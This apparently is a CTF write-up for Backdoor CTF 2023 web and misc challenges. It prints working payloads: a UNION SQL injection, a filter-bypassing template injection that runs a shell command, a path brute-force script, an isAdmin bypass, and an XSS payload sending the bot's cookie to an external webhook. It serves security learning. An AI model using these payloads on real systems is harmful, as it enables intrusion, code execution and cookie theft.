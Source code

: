 ```yaml
---
title: "Backdoor CTF 2023"
description: "Writeup for challenges in Backdoor CTF 2023"
summary: "Writeup for challenges in Backdoor CTF 2023"
categories: ["Writeup"]
tags: ["Web Exploitation","Misc", "CTF"]
#externalUrl: ""
date: 2023-12-18
draft: false
---
```


<!-- .slide: style="font-size: 12px;" -->


<h1>Backdoor CTF 2023 - Writeup Challenges</h1>


## web/too-many-admins
![image](https://hackmd.io/_uploads/Bylp_-C8T.png)

This chall gives me a source. When read `index.php` i saw this line:
```php=
if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users ";

    }
    $result = $conn->query($query);
```

So it is simple SQL Injection and the flag is hide in the random admin's bio.

```sql=
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;
```

Final payload:
`http://34.132.132.69:8000/?user=admin0' UNION SELECT username, bio, password FROM users where INSTR(bio,'flag{')-- -`
![image](https://hackmd.io/_uploads/H13DTkAUT.png)
Flag: `flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/Unintelligible-Chatbot
![image](https://hackmd.io/_uploads/Hka6uZCLp.png)


This web gives me a chatbox with bot and then show the result to user. 
![image](https://hackmd.io/_uploads/Sy1p610IT.png)
When i saw that. i think about SSTI (Server-side template injection). So i try `{{7*7}}` first.
![image](https://hackmd.io/_uploads/BJkK01CIT.png)
Bingo. But this chall has filter some characters so i need to bypass filter to get the flag. You can refer how to bypass the filter from the documentation at [this link](https://hackmd.io/@Chivato/HyWsJ31dI). Idea to bypass that you change the blacklist word into hex and use attr to bypass dot. 
Final payload:
`{{"foo"|attr('\137\137\143\154\141\163\163\137\137')|attr('\137\137\142\141\163\145\137\137')`
`|attr('\137\137\163\165\142\143\154\141\163\163\145\163\137\137')()|attr('\137\137\147\145\164\151\164\145\155\137\137')(352)|attr('\137\137\151\156\151\164\137\137')|attr('\137\137\147\154\157\142\141\154\163\137\137')`
`|attr('\137\137\147\145\164\151\164\145\155\137\137')("os")|attr('popen')('cat flag')|attr('read')()}}`
![image](https://hackmd.io/_uploads/Hk2x8xCIa.png)
Flag: `flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war

![image](https://hackmd.io/_uploads/r1VSUl0I6.png)

The challenge gives me a description with these letters are written in uppercase so i think the username is in the path of server. And we need to brute a little bit. Simple script to get the username:

```python=
import requests
import string

username = ""
while True:
    for char in (string.ascii_letters + string.digits):
        url = f"http://34.132.132.69:8005/{username+char}"
        res = requests.get(url=url)
        if "You are on a wrong path, This doesn't exist" not in res.text:
            username+=char
            print("[+] Founded a char: " + username)
```

![image](https://hackmd.io/_uploads/HJbTxZCL6.png)
Then add a simple SQL injection to bypass. `" or 1=1; -- -` to get the flag. 
![image](https://hackmd.io/_uploads/B1ki_-R8T.png)

Flag: `flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## misc/halo-jack

![image](https://hackmd.io/_uploads/SJS1w-1vT.png)

This challenge takes me a lot of time ~~(Guessy maybe)~~. And then i think about brute force all the commands that can use in my shell. And then i saw that `lssr` and `pr` can be used [here](https://pypi.org/project/lssr/0.3.0/) and [here](https://www.ibm.com/docs/ro/aix/7.2?topic=p-pr-command). After research i saw that `lssr` and `pr` is alternative ls command and cat command.
![image](https://hackmd.io/_uploads/BJPuPQJDa.png)

> Flag is in lovebirds.txt. 

![image](https://hackmd.io/_uploads/By1jw7Jwa.png)
Flag: `flag{th3_4uth0rs_4r3_1n_l0v3_w1th34ch_0th3r}`

## web/armoured-notes


I think about XSS injection when this web gives me a bot to visit the url i give. So the idea is giving the url have xss to take the bot cookie (which is the flag). The first thing we need to bypass isAdmin. 

Source code route report and posts:
```js=
app.post("/report", async (req, res, next) => {
    const { url } = req.body;
    if (!url) {
      return res.status(400).send({ msg: "Url is missing." });
    }
    if (!RegExp(urlRegex).test(url)) {
      return res
        .status(422)
        .send({ msg: "URL din't match this regex format " + bot.urlRegex });
    }
    if (await bot(url)) {
      return res.send({ msg: "Admin successfully visited the URL." });
    } else {
      return res.status(500).send({ msg: "Admin failed to visit the URL." });
    }
  });

  app.get("/posts/:id", async (req, res, next) => {
    try {
      const post = await diaryCollection.findOne({
        _id: new ObjectId(req.params.id),
      });
      if (!post) {
        return res.status(404).json({ code: "err" });
      }
      const url = req.originalUrl;

      let template;
      template = fs.readFileSync(resolve("views/post.html"), "utf-8");
      template = await vite.transformIndexHtml(url, template);
      const render = (await vite.ssrLoadModule("/utils/router.js")).render;

      const appHtml = await render(url, __dirname, req);

      const html = template.replace(`<!--app-html-->`, appHtml);

      res.status(200).set({ "Content-Type": "text/html" }).end(html);
    } catch (e) {
      res.status(500).end(e.stack);
    }
  });
```

After read a source a little bit a see this:

```js=
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;

      try {
        const result = await diaryCollection.insertOne(newEntry);
        return res.json({ code: result.insertedId });
      } catch (err) {
        console.error("Failed to insert entry", err);
        return res.status(500).json({ code: "err" });
      }
    }
    return res.json({ code: "err" });
  });
  app.post("/save", async (req, res, next) => {
    let { id, message } = req.body;

    try {
      await diaryCollection.updateOne(
        { _id: new ObjectId(id) },
        { $set: { message: message } }
      );
      return res.json({ code: "success" });
    } catch (err) {
      console.error("Failed to update diary entry", err);
      return res.status(500).json({ code: "err" });
    }
  });
```

Let check how the duplicate function is defined.

```js=
export function duplicate(body) {
    let obj={}
    let keys = Object.keys(body);
    keys.forEach((key) => {
      if(key !== "isAdmin")
      obj[key]=body[key];
    })
    return obj;
  }
```
It takes an object (body) as an argument and returns a new object (obj) with the same properties as the input object, excluding the property with the key "isAdmin". It uses the Object.keys method to iterate over the keys of the input object and creates a new object without including the "isAdmin" property. It looks like prototype pollution that we can inject isAdmin when post `/create`.

![image](https://hackmd.io/_uploads/Hkjn-bxDT.png)

So i create a id that can give to bot url to visit. But how to take the admin cookie? After searching about vitejs xss injection i see [this](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title). The last thing to do is build a payload send to my server to get the flag. 
Final payload: `http://34.132.132.69:8001/posts/658276ae99d634eec4c73710/?"></script><script>location='https://webhook.site/394f8039-82d9-432f-b9f0-b62b8cff5ce4/'+document.cookie</script>`

![image](https://hackmd.io/_uploads/SJ8XQ-lva.png)

Flag: `flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`